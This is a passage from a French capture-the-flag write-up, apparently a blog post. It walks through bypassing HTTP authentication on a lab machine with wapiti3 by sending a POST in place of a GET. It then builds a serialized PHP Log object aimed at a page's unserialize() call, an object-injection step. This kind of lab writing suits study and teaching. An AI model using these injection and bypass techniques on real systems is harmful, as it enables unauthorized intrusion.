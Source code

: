 Ok... and now what ?  

On peut reprendre la classe Log, instancier un objet puis le sérializer :  

```php
$l = new Log();
$l->filename = "index.php";
$l->data = "hi there";
echo urlencode(serialize($l));
```

Mais après on l'injecte comment ? Via l'authentification HTTP ? Marche pas :'(   

On se dit alors que peut être l'authentification est mal écrite et qu'il est facile de la bypasser. Pou cela je dégaine wapiti3 (version de développement) :  

```plain
./bin/wapiti http://192.168.1.43/ -s http://192.168.1.43/index.php -m htaccess --color
```

Et le miracle s'accomplit :   

![Wapiti htaccess bypass](https://raw.githubusercontent.com/devl00p/blog/master/images/wapiti3_htaccess_bypass.png)

Mégateuf Wayne ! On peut accéder à la page si on effectue par exemple un POST à la place d'un GET sur */index.php*.  

La page découverte contient un formulaire qui envoie le contenu sérialisé suivant sur elle même :  

```plain
O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}
```

Il faut donc utiliser l'appel à *unserialize()* effectué par la page pour exploiter la classe *Log* vu plus haut.  

Explorons cette nouvelle contrée
--------------------------------
